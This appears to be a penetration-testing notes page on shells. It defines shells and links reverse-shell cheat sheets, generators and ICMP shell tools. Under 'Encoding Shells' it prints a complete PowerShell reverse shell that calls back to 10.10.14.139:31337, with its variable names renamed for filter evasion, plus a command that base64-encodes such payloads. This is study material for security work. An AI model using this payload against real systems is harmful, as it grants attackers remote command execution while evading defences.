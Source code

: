 # Shells

## Introduction

A shell is the user interface of a system, either in a form of a Command Line Interface or Graphical User Interface, is used to interact with system.  To differentiate futher modern terminals are still GUIs applications whereas a Headless install of a OS would closer to 20th Century common user interaction with a system. This article is conceptual breakdown of types of shells:
- For large maintained list of reverse shells check: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Cheatsheet from highoncoffee.
- Generate reverse shells with [revshells](https://www.revshells.com/). 
- Hack-Tools browser plugin also has reverse shell generator for [Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) and [Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)

## Shells 101

A shell is command line or grapical user interface of a system, the outermost layer to interact with it. Some example commands to demonstrate usage here list of linux networking commands help. For more see [[Core-Linux-Commands]]. For  useful list of windows commands see [[Windows-Commands]]

## Linux Shells

The trailing `$` or `#` character indicates that the shell is awaiting your input and also indicates whether Bash recognizes you as a normal user with `$`  or as a root  `#`.

## Bind and Reverse Shells

[[Bind-And-Reverse-Shells-Defined]] for explainations, alternative frameworks and tool or [[Reverse-Shells-Listing]] for something close to PayloadAllTheThings, but just for shells

## ICMP Shells

[[Nishang-Helpsheet]] has an  [ICMP reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1), requires python2
[Bdamele](https://github.com/bdamele/icmpsh)'s ICMP shell 

## Encoding Shells

Powershell Filter evasion
```powershell
$a = New-Object System.Net.Sockets.TCPClient('10.10.14.139',31337);$b = $a.GetStream();[byte[]]$c = 0..65535|%{0};while(($i = $b.Read($c, 0, $c.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($c,0, $i);$f = (iex $d 2>&1 | Out-String );$g = $f + 'PS ' + (pwd).Path + '> ';$e = ([text.encoding]::ASCII).GetBytes($g);$b.Write($e,0,$e.Length);$b.Flush()};$a.Close()
# client -> a
# stream -> b
# bytes -> c
# data -> d
# sendbyte -> e
# sendback -> f
# sendback2 -> f2 -> g
```

Base64 encoding 
```bash
iconv -f ASCII -t UTF-16LE rshell.txt | tr -d "\n" | base64 -w0 
```

## References

[Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) 
[Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)
[Bdamele's icmpsh](https://github.com/bdamele/icmpsh)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
